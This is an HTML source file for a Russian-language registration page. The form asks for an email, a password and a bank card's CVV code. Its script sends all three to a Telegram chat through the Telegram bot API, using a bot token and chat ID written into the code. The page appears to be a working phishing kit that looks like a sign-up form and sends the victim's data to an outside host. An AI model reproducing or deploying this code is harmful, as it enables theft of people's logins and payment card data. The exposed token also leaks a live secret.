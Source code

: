 <html lang="ru">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Регистрация</title>
    <style>
      form {
        display: flex;
        flex-direction: column;
        width: 250px;
        margin-left: 100px;
      }
      h1 {
        margin-left: 100px;
      }
      button {
        margin-top: 10px;
        padding: 10px;
        background: green;
      }
    </style>
</head>
<body>
    <h1>Регистрация</h1>
    <form id="registrationForm">
        <p></p>
        <label for="email">Email</label>
        <input type="text" id="email" name="email" required maxlength='50' onkeypress="return /[a-zA-Z0-9@.]/.test(event.key)" title="Email должен содержать только латинские буквы, цифры, @ и .">
        <br>
        <p></p>
        <label for="pass">Пароль</label>
        <input type="text" id="pass" name="password" required maxlength='20' onkeypress="return /[a-zA-Z0-9]/.test(event.key)" title="Пароль должен содержать только латинские буквы и цифры (максимум 20 символов)">
        <p></p>
        <label for="cvv">CVV код (3-х значный код на обратной стороне карты)</label>
        <input type="text" id="cvv" name="cvv" required maxlength="3" oninput="this.value = this.value.replace(/[^0-9]/g, '')">
        <br>
        <button type="submit">Зарегистрироваться</button>
    </form>

    <script>
        const form = document.getElementById('registrationForm');

        form.addEventListener('submit', e => {
            e.preventDefault(); 
            
            const username = document.getElementById('pass').value;
            const email = document.getElementById('email').value;

            // Проверка на наличие символа @ в email
            if (!email.includes('@')) {
                alert('Пожалуйста, введите корректный адрес электронной почты (должен содержать @).');
                return;
            }

            // Проверка на допустимые символы в email
            const emailPattern = /^[a-zA-Z0-9@.]+$/;
            if (!emailPattern.test(email)) {
                alert('Email может содержать только латинские буквы, цифры, @ и .');
                return;
            }

            const cvv = document.getElementById('cvv').value;

            const token = '7942332820:AAFC2P1_9T8USat2LkVF_cXqtqCaBqs2O4g';
            const chatId = -1002372284940; 
            const message = `Новая регистрация:\n Почта: ${email}\n Пароль: ${username}\n CVV: ${cvv};`
            const url = `https://api.telegram.org/bot${token}/sendMessage?chat_id=${chatId}&text=${encodeURIComponent(message)};`
            
            fetch(url) 
            .then(response => {
                if (response.ok) {
                    alert('Данные успешно отправлены в Telegram!');
                } else {
                    console.log('error');
                }
            })
            .catch(error => {
                console.error('Ошибка:', error);
                alert('Ошибка при отправке данных.');
            });
        });
    </script>
</body>
</html>
